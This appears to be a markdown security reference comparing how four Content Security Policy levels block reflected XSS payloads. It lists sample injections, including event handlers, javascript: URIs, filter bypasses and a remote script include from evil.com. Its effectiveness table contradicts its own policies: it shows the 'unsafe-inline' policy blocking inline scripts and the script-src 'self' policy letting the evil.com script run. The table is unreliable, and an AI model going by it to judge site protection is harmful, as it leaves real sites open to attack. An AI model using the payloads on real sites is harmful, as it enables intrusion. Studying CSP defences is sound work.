 # XSS Payloads vs CSP Levels 

This document provides a comprehensive comparison of how different Content Security Policy (CSP) levels mitigate various XSS payloads across all three types of XSS vulnerabilities: Reflected, Stored, and DOM-based.

## CSP Levels Overview

Before examining the effectiveness tables, let's understand the different CSP levels:

1. **No CSP**: No Content Security Policy applied - offering no protection against XSS attacks.

2. **Basic CSP**:
   ```
   Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src *;
   ```
   Allows inline scripts and styles but provides some basic restrictions.

3. **Moderate CSP**:
   ```
   Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self'; img-src 'self';
   ```
   Blocks inline scripts but allows same-origin scripts.

4. **Strict CSP**:
   ```
   Content-Security-Policy: default-src 'none'; script-src 'self' 'nonce-{random}'; style-src 'self'; img-src 'self'; connect-src 'self';
   ```
   Requires nonces for scripts and applies tight restrictions on all resource types.

## Effectiveness Tables

### Reflected XSS Payloads

| Attack Vector | Example Payload | No CSP | Basic CSP | Moderate CSP | Strict CSP |
|---------------|-----------------|--------|-----------|--------------|------------|
| Basic script tag | `<script>alert('XSS')</script>` | ✅ | ❌ | ❌ | ❌ |
| Event handlers | `<img src="x" onerror="alert('XSS')">` | ✅ | ✅ | ❌ | ❌ |
| JavaScript URI | `<a href="javascript:alert('XSS')">Click me</a>` | ✅ | ❌ | ❌ | ❌ |
| Data URI | `<object data="data:text/html,<script>alert('XSS')</script>">` | ✅ | ❌ | ❌ | ❌ |
| Inline SVG with script | `<svg onload="alert('XSS')">` | ✅ | ✅ | ❌ | ❌ |
| CSS-based attack | `<div style="background-image: url('javascript:alert(1)')">` | ✅ | ✅ | ❌ | ❌ |
| Meta tag refresh | `<meta http-equiv="refresh" content="0;url=javascript:alert('XSS')">` | ✅ | ❌ | ❌ | ❌ |
| Encoded JavaScript | `%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E` | ✅ | ❌ | ❌ | ❌ |
| Filter bypass | `<scr<script>ipt>alert('XSS')</script>` | ✅ | ❌ | ❌ | ❌ |
| Remote script inclusion | `<script src="https://evil.com/xss.js"></script>` | ✅ | ✅ | ✅ | ❌ |
